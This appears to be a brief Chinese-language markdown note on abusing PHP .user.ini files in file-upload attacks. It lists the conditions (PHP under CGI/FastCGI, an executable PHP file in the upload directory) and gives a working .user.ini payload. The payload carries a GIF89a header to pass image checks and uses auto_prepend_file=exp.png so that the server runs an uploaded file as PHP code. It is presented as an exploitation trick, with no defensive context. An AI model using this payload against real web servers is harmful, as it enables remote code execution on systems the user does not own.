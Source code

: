 # .user.ini 文件利用
* 服务器脚本语言为PHP <br>
* 服务器使用CGI／FastCGI模式 <br>
* 上传目录下要有可执行的php文件 <br>
运行php脚本会添加文件exp.png的代码
```ini
GIF89a
auto_prepend_file=exp.png
```